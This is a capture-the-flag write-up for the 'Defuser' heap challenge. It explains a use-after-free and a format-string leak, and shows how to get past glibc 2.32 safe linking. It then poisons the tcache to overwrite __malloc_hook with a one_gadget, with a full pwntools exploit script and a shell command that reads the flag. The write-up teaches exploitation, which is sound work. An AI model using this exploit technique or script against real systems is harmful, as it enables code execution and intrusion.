


# Defuser

> An active bomb has been detected at a military base in the Scorpio sector! Our best troops have been mobilized, but the bomb is far too technologically advanced to be defused in the traditional way... \
> On its small on-board screen, it displays only `sie2op7ohko.hackday.fr:1337`.
> 
> Help us, we must quickly take control of the bomb's system!
> 
> **The flag is in the file `flag.txt` on the server and is in the format `HACKDAY{...}`.**

## Overview

We're provided with the files `chall` and `libc.so`. \
Let's see what kind of files we have.

```
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=346d2c3404ac72ae9f636c77aaef01abd0ec8c61, not stripped
$ checksec chall
[*] '/home/elf/Downloads/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ ./libc.so
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

Once again, we have an x64 ELF executable for Linux. It has the NX bit set and is PIE. \
The libc is in version 2.32.

Before going further, to patch the binary and make it use the provided libc instead of my system's one, let's use [pwninit](https://github.com/io12/pwninit). Then, we can run the binary and see what it does.
```
$ pwninit
bin: ./chall
libc: ./libc.so

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.32-0ubuntu3_amd64.deb
setting ./ld-2.32.so executable
symlinking ./libc.so.6 -> libc.so
copying ./chall to ./chall_patched
running patchelf on ./chall_patched
writing solve.py stub
$ ./chall_patched 

----- DEFUSER -----

1. Put a patch
2. Edit a patch
3. Remove a patch
4. Greet me
5. Exit the defuser
> 
```

## Features

It looks like a heap challenge. We have a menu and we can select an option among 5. I'm not showing the decompiled code for each of these options from IDA because it's straightforward, but basically, we have the choice between:

1. Put a patch, that is allocating a buffer with malloc. The program then asks for the slot in which you want to allocate, then for the length of the buffer you want to allocate, and finally for its content. The slot is restricted to values between 1 and 7, while the allocated length is restricted to values between 1 and 1032.
2. Edit a patch, basically allows us to change the content of an existing allocated buffer. We specify the slot and then the new content.
3. Remove a patch, this just frees a slot.
4. Greet me, this will ask for your name and then greet you with it. If you try to use that a second time, it will directly print you the name you entered the first time without asking.
5. Exit the defuser, just ends the program.

## Vulnerabilities

There are two vulnerabilities. \
The first one is in the 3rd option, which frees the slot but does not set it to NULL. This allows the 2nd option to be used on it even if it's freed to edit the content, allowing for a user after free (UAF).



The second one is in the 4th option, where a format string vulnerability is present. However, a check is done and reject any input containing the letter `n`, which makes this format string useful only for leaking stuff but unusable for writing purposes, because we can't use `%n`.



Because we can only allocate 7 different buffers at a time, and their size is limited to a range between 1 and 1032, we will only be able to use the tcachebins. \
We have the possibility to leak addresses from the stack thanks to the format string, that we can use to defeat ASLR. \
Then, because we also have a UAF, that we can do a tcache poisonning attack.

The libc is in version 2.32. This version implements a new protection used to prevent attacks on the single linked lists bins, that are fastbins and tcachebins: the [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/) mechanism. With that, tcache poisonning shouldn't work anymore.

This is a protection that obfuscates the content of the `fd` pointer in the freed chunks located in fastbins and tcachebins. The formula is the following:

```
fd = fd ^ (address >> 12)
```

The `fd` pointer is xored with the address it is located at, shifted to the right by 12.

However, it is a known and accepted weakness that safe linking is bypassed if the attacker also has a heap leak. And in our case, we have the format string that allows us to leak anything, which we can use to compute the value that should go into the `fd` pointer after the safe linking obfuscation. \
Great!

## Exploitation

The usual tcache poisonning attack we'll apply is not very complicated. We will take advantage of the UAF and of a heap leak gathered with the format string to overwrite a freed chunk `fd` pointer with a pointer to `__malloc_hook`. We will then be able to allocate a new chunk and so get a pointer to `__malloc_hook`, where we can write a [one gadget](https://github.com/david942j/one_gadget).

```
$ one_gadget libc.so
0xdf54c execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xdf54f execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xdf552 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

We will use the second one, because we can find out in gdb that the constraints for this one are already fulfilled.

We use `__malloc_hook` because its address is already properly aligned, so it's easier. That's because safe linking also makes sure the allocated chunks are properly aligned, which was not the case before.

Here is my Python script to automate this process:

```py
from pwn import *

host = "sie2op7ohko.hackday.fr"
port = 1337

exe = ELF("./chall_patched")
libc = ELF("./libc.so")

context.binary = exe

def wait_menu():
    r.recvuntil(b"----- DEFUSER -----")

def send(data):
    r.sendlineafter(b"> ", data)

def alloc(slot, size, data, only_trigger_malloc = False):
    wait_menu()
    send(b"1")
    send(str(slot).encode())
    send(str(size).encode())

    if not only_trigger_malloc:
        send(data)

def edit(slot, data):
    wait_menu()
    send(b"2")
    send(str(slot).encode())
    send(data)

def free(slot):
    wait_menu()
    send(b"3")
    send(str(slot).encode())

def greet(name):
    wait_menu()
    send(b"4")
    send(name)
    greetings = r.recvline()
    return greetings.decode()

def leak_stack(offset1, offset2):
    fstr = f"%{offset1}$lx %{offset2}$lx"
    greetings = greet(fstr.encode())
    leak1, leak2 = greetings.split(" ")[-2:]

    return int(leak1, 16), int(leak2, 16)

def safe_linking(address, fd):
    return fd ^ address >> 12

r = remote(host, port)

# these offsets are found using gdb
slots_offset = 24
libc_addr_offset = slots_offset + 11 # __libc_start_main+242

one_gadget = 0xdf54f

alloc(1, 128, b"A" * 126)

first_slot, libc_leak = leak_stack(slots_offset, libc_addr_offset)
log.info(f"slots @ {hex(first_slot)}")

libc.address = libc_leak - (libc.symbols["__libc_start_main"] + 242)

log.info(f"libc @ {hex(libc.address)}")
log.info(f"__malloc_hook @ {hex(libc.symbols['__malloc_hook'])}")

alloc(2, 128, b"B" * 126)
free(2)
free(1)
edit(1, p64(safe_linking(first_slot, libc.symbols["__malloc_hook"]))) # put the address of __malloc_hook in the fd pointer of slot 1's freed chunk
alloc(3, 128, b"C" * 126) # return slot 1 chunk
alloc(4, 128, p64(libc.address + one_gadget)) # return a pointer to __malloc_hook instead of one to the slot 2 because we overwrote it, we write the one_gadget in here
alloc(5, 128, "osef :DD", only_trigger_malloc=True) # we trigger malloc to call the hook

r.sendline(b"cat flag.txt")
log.success(r.recvline().decode())
```

Result:

```
$ python3 solve.py
[*] '/home/elf/Downloads/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/elf/Downloads/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to sie2op7ohko.hackday.fr on port 1337: Done
[*] slots @ 0x565433e812c0
[*] libc @ 0x7f02d89fd000
[*] __malloc_hook @ 0x7f02d8be0b90
[+] HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}
[*] Closed connection to sie2op7ohko.hackday.fr port 1337
```

Flag: `HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}`